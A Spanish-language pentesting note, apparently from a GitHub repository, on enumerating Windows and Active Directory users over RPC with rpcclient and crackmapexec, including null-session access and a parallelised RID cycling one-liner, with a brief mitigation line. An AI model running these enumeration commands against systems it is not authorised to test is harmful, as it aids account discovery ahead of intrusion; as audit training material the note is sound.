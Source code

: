 # Remote Procedure Call 

El protocolo **RPC** (**Remote Procedure Call** o **llamada a procedimiento remoto**) es un protocolo que permite a un programa solicitar un servicio a un programa ubicado en otro equipo dentro de una red. (Puerto **135**)

Por otro lado, los **RID** (**Relative Identifier**) son una parte de los *SID* (*Security Identifier*) que identifica de manera única a una cuenta o grupo dentro de un dominio o equio local. 

-----
# Enumeración 

La enumeración del protcolo *RPC* puede ser fundamental en una auditoria para enumerar usuarios, grupos, etc.

Para esto podemos hacaer uso de herramientas como **rpcclient**. 

#### Enumeración
```bash
rpcclient -U "" {target_ip} -N
# Intentar obtener una consola haciendo uso de una NULL session para poder enumerar usuarios, grupos, etc. 
rpcclient -U "{username}%{password}" {target_ip} -N
# Intentar obtener una consola haciendo uso de credenciales para poder enumerar usuarios, grupos, etc. 
```
#### Comandos en "rpcclient $>": 
```bash
enumdomusers 
# Listar los usuarios junto a sus rid
enumdomgroups
# Listar los grupos junto a su rid
querygroupmem {rid} 
# Listar los usuarios pertenecientes a un grupo 
queryuser {rid}
# Listar datos del usuario ingresado
querydispinfo
# Listar descripciones de los grupos 
```
 También podríamos intentar brute forcear estos valores mediante herramientas como **crackmapexec**:
```bash
crackmapexec smb {domain} -u anonymous -p "" --rid-brute 10000
```

----
# RID Cycling attack

Adiconalmente, la técnica *RID Cycling* es un método utilizado para enumerar cuentas de usuario en un sistema Windows. Este ataque explota el hecho de que se puedan cosnultar los **SIDs** (**Securit Identifiers**) de manera incremental mediante solictudes RPC, incluso si las políticas de acceso de la red son restrictivas.

Para llevar a cabo el ataque *RID Cycling*, podemos hacer uso de herramientas como `rpcclient` de Samba o `crackmapexec`.

```bash
rpcclient -U 'guest%' {target_IP} -c 'lookupnames administrator'
```

Una vez ejecutado el comando indicado, veremos en el stdout el *SID*, por ejemplo:

```bash
administrator S-1-5-21-4078382237-1492182817-2568127209-500 (User: 1)
```

Donde el *SID* sería *administrator S-1-5-21-4078382237-1492182817-2568127209-* y el *RID* el número final *500*. Entendiendo esta composición, podremos hacer uso del SID e iterar por diversos valores en la posición del *RID*:

```bash
seq 400 2000 | xargs -P 200 -I {} rpcclient -U 'guest%' {target_IP} -c 'lookupsids S-1-5-21-4078382237-1492182817-2568127209-{}' | grep -v unknown
```

De esta manera, lograríamos obtener un listado de usuarios válidos en el dominio de *Active Directory* o en el equipo local del workstation.

----
# Mitigating RID Cycling

Para evitar este tipo de ataques, se recomienda restringir el acceso a RPC a través de firewalls y políticas de acceso, así como monitorear el tráfico de red.


